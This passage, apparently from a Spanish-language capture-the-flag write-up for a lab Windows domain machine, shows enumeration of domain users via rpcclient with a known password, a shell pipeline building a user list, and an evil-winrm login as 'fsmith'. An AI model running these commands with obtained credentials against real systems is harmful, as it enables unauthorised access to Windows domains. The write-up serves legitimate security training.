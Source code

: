Pwn3d! Genial, podemos conectarnos por winRM.

Antes de conectarnos con evil-winrm podemos seguir enumerando. Por ejemplo, si nos conectamos a través de ``RPC`` podemos listar usuarios (aunque también podríamos listarlos desde dentro si nos conectamos con evil-winrm):

``rpcclient -U 'fsmith%Thestrokes23' 10.10.10.175 -c enumdomusers > rpcusers.txt``

![19](Images/19.png)

Tenemos usuarios del dominio, pero si quisiéramos tener un diccionario de usuarios válidos, primero tenemos que hacer un tratamiento a dichos datos. Nos quedaremos sólo con lo que está entre los primeros corchetes.

``cat rpcusers.txt | cut -d '[' -f2 | cut -d ']' -f1 > realusers.txt``

![20](Images/20.png)

Nos conectamos por ``winRM`` como el usuario fsmith.

``evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'``
![21](Images/21.png)
